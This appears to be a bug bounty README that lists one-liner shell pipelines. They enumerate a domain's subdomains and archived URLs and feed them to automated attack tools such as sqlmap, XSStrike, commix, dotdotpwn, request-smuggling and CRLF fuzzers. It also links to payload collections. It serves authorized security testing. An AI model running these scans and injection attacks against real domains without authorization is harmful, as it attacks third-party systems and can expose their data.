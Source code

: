# BugBountyToolBox

- `bbp-setup.sh`: A script to setup your bug bounty tool.
    ```sh
    chmod +x bbp-setup.sh
    ./bbp-setup.sh
    ```

- `bbp-recon.sh`: A script to automate the recon process.
    ```sh
    chmod +x bbp-recon.sh
    ./bbp-recon.sh [domain | /path/to/domains.txt | /path/to/asset.txt]
    ```

## One-liners

### Directory Transversal

```sh
dotdotpwn.pl -m http -h $domain
```

### SQL Injection

```sh
# subfinder + gau(or waybackurls) + urldedupe(or sort -u) + gf sqli + sqlmap
subfinder -d $domain -all --silent | gau | urldedupe | gf sqli > sql.txt; 
sqlmap -m sql.txt --batch --dbs --risk 2 --level 5 --random-agent | tee -a sqli.txt

# improved script
subfinder -d $domain -all --silent | \
xargs -I@ -P 10 sh -c 'gau @ | urldedupe | gf sqli' > sqli.txt;
sqlmap -m sql.txt --batch --dbs --risk 2 --level 5 --random-agent 2 | tee -a sqli.txt
```
- Burp Intruder Payloads
    - [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection/Intruder](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection/Intruder)

### Cross-Site Scripting (XSS)

```sh
# subfinder + gau(or waybackurls) + urldedupe(or sort -u) + gf xss + xssstrike
subfinder -d $domain -all --silent | gau | urldedupe | gf xss | tee -a xss.txt; 
python3 xsstrike.py -u $url # url in xss.txt

# improved script
subfinder -d $domain -all --silent | \
xargs -I@ -P 10 sh -c 'gau @ | urldedupe | gf xss' > xss.txt;
python3 xsstrike.py -u $url # url in xss.txt
```

- Burp Intruder Payloads
    - [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS Injection/Intruders](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS Injection/Intruders)

### Command Injection

```sh
subfinder -d $domain -all --silent | waybackurls | sort -u | grep "?*=" | tee -a cmd.txt
python3 commix.py -u $subdomain --batch

# improved script
subfinder -d $domain -all --silent | \
xargs -I@ -P 10 sh -c 'waybackurls @ | urldedupe | grep "?*=" > cmd.txt';
python3 commix.py -u $subdomain --batch
```

### HTTP Header Injection (HTML Injection and Content Spoofing)

```sh
headi -u $subdomain
```

### Template Injection

```sh
# subfinder + gau(or waybackurls) + urldedupe(or sort -u) + gf ssti
subfinder -d $domain -all --silent | gau | urldedupe | gf ssti > ssti.txt

# improved script
subfinder -d $domain -all --silent | \
xargs -I@ -P 10 sh -c 'gau @ | urldedupe | gf ssti' > ssti.txt
```

### Server-Side Request Forgery (SSRF)

```sh
# subfinder + gau(or waybackurls) + urldedupe(or sort -u) + gf ssrf
subfinder -d $domain -all --silent | gau | urldedupe | gf ssrf >> ssrf.txt

# improved script
subfinder -d $domain -all --silent | \
xargs -I@ -P 10 sh -c 'gau @ | urldedupe | gf ssrf' >> ssrf.txt
```

### File Inclusion

```sh
# subfinder + gau(or waybackurls) + urldedupq(or sort -u) + gf lfi
subfinder -d $domain -all --silent | gau | urldedupe | gf lfi >> lfi.txt

# improved script
subfinder -d $domain -all --silent | \
xargs -I@ -P 10 sh -c 'gau @ | urldedupe | gf lfi' >> lfi.txt
```

### Unvalidated Redirects and Forwards (Open Redirect)

```sh
# subfinder + gau(or waybackurls) + urldedupe(or sourt -u) + gf redirect
subfinder -d $domain -all --silent | gau | urldedupe | gf redirect | openredirex >> openrs.txt

# improved script
subfinder -d $domain -all --silent | \
xargs -I@ -P 10 sh -c 'gau @ | urldedupe | gf redirect | openredirex' >> openrs.txt
```

### Subdomain-Takeover Vulnerability

```sh
subzy run --target $domain
subzy run --target urls.txt
```

### IDOR (Broken Access Control)

```sh
# subfinder + gau(or waybackurls) + urldedupe(or sort -u) + gf idor
subfinder -d $domain -all --silent | gau | urldedupe | gf idor >> urls.txt

# improved script
subfinder -d $domain -all --silent | \
xargs -I@ -P 10 sh -c 'gau @ | urldedupe | gf idor' >> idor.txt
```

### Using Known Vulnerable Components

```sh
nmap -T4 -sV --script vulners $ip
```

### Security Misconfiguration

```sh
# subfinder + gau(or waybackurls) + urldedupe(or sort -u) + gf cors
subfinder -d $domain -all --silent | gau | urldedupe | gf cors >> cors.txt
python3 cors.py -i cors.txt

# improved script
subfinder -d $domain -all --silent | \
xargs -I@ -P 10 sh -c 'gau @ | urldedupe | gf cors' >> cors.txt;
python3 cors.py -i cors.txt
```

### Remote Code Execution

```sh
# subfinder + gau(or waybackurls) + urldedupe(or sort -u) + gf rce
subfinder -d $domain -all --silent | gau | urldedupe | gf rce >> rce.txt

# improved script
subfinder -d $domain -all --silent | \
xargs -I@ -P 10 sh -c 'gau @ | urldedupe | gf rce' >> rce.txt
```

### HTTP Request Smuggling

```sh
python3 smuggler.py -u $urls
```

### CRLF Injection

```sh
crlfuzz -u $url
crlfuzz -l urls.txt
```

## Further Reading

- [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

- [https://github.com/thecybertix/One-Liner-Collections](https://github.com/thecybertix/One-Liner-Collections)

- [https://github.com/1ndianl33t/Bug-Bounty-Roadmaps](https://github.com/1ndianl33t/Bug-Bounty-Roadmaps)

- [https://github.com/KingOfBugbounty/KingOfBugBountyTips](https://github.com/KingOfBugbounty/KingOfBugBountyTips)

- [https://github.com/reddelexc/hackerone-reports](https://github.com/reddelexc/hackerone-reports)